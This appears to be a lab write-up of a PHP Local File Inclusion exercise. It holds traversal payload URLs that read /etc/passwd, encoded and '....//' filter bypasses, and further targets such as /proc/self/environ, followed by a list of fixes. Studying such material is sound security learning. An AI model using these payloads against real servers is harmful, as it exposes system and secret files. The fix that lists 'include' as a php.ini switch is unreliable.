

# Local File Inclusion (LFI)

##  What I Did
Exploited a PHP web application by abusing the `language` parameter to access restricted server files like `/etc/passwd`. This confirmed a **Local File Inclusion (LFI)** vulnerability.

---

##  Tools Used
- LFI vulnerable site
- Browser (manual payload testing)
- Burp Suite (for request manipulation & encoding)
- Online Encoders (for obfuscating traversal attempts)

---

##  Screenshot – `/etc/passwd` Leaked via LFI


---

##  Steps

### 1. Found the vulnerable `language` parameter

Legit request:
```
http://94.237.121.185:33465/index.php?language=en.php
```

Injected traversal payload:
```
http://94.237.121.185:33465/index.php?language=../../../../etc/passwd
```

 File loaded in-browser showing user entries like `root:x:0:0:/root:/bin/bash`

---

### 2. Tried Bypass Techniques (in case of filters)

URL encoded:
```
.../index.php?language=%2e%2e%2f%2e%2e%2fetc%2fpasswd
```

Alternate directory traversal:
```
.../index.php?language=....//....//....//etc/passwd
```

---

### 3. Explored More Sensitive Files (optional)

Tested for:
- `/proc/self/environ`
- `/etc/hostname`
- Application-specific `.log` files

Some returned useful debugging and environment variables.

---


## Fixes:

### 1. **Whitelist Acceptable Inputs**
   Accept only known safe files like `en.php`, `about.php`.

### 2. **Sanitize File Paths**
   Remove `../`, `%2e%2e`, and null bytes before including files.

### 3. **Restrict Server Permissions**
   Web server (e.g. `www-data`) should not access system files.

### 4. **Disable Dangerous Functions**
   In `php.ini`, turn off `allow_url_fopen`, `include`, etc.

### 5. **Logging & Monitoring**
   Flag excessive traversal attempts or failed file lookups.
